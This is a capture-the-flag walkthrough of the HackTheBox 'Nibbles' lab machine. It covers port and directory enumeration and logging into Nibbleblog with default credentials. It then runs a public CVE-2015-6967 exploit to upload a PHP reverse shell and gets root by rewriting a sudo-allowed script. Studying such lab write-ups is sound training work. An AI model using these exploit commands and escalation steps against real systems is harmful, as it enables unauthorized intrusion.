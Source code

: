 ```yaml
---
title: Nibbles
tags:
  - HackTheBox
  - Easy
  - Linux
  - Web
---
```

![](Pasted%20image%2020241104161017.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nibbles.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241104161240.png)

Inspecting the source code I notice the hidden directory `nibbleblog`:

![](Pasted%20image%2020241104161349.png)

![](Pasted%20image%2020241104161421.png)

So I decided to perform some enumeration using [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -e php -u http://nibbles.htb/nibbleblog/

[redacted]
[16:17:19] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[16:17:19] 200 -  606B  - /nibbleblog/admin.php                             
[16:17:19] 200 -  516B  - /nibbleblog/admin/                                
[16:17:19] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[16:17:19] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[16:17:24] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[16:17:24] 200 -  485B  - /nibbleblog/content/                              
[16:17:25] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[16:17:29] 200 -   92B  - /nibbleblog/install.php                           
[16:17:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[16:17:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[16:17:30] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[16:17:34] 200 -  694B  - /nibbleblog/plugins/                              
[16:17:34] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[16:17:35] 200 -    5KB - /nibbleblog/README                                
[16:17:39] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[16:17:39] 200 -  498B  - /nibbleblog/themes/                               
[16:17:40] 200 -  815B  - /nibbleblog/update.php
```

So I checked the `admin.php` file:

![](Pasted%20image%2020241104162503.png)

After some typical combination, none got me inside, so I decided to check the other findings. The one who got me up was `update.php`:

![](Pasted%20image%2020241104162615.png)

*So can I read private files?* That gave me an idea: I could inspect the `http://nibbles.htb/nibbleblog/content/private/` directory and maybe find some creds:

![](Pasted%20image%2020241104162734.png)

The one which was more interesting was `users.xml`:

![](Pasted%20image%2020241104163003.png)

Now we know that there is a user called `admin`

## Exploitation

Then i decided to search for "*nibbleblog cve*" and found [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967). BTW it seems that common creds to use are `admin:nibbles`. I tried them and worked:

![](Pasted%20image%2020241104163159.png)

So I cloned the repo and executed the exploit to get a reverse shell:

```shell
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload ../../shell.php
```

![](Pasted%20image%2020241104163547.png)

Now I can read the user flag:

![](Pasted%20image%2020241104164111.png)

## Privilege Escalation

If we run:

```shell
sudo -l

[redacted]
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So we can create that file with the following content:

```shell
bash -i
# Then
sudo /home/nibbler/personal/stuff/monitor.sh
```

Now we're root and can read root flag:

![](Pasted%20image%2020241104164949.png)

==Machine pwned!==



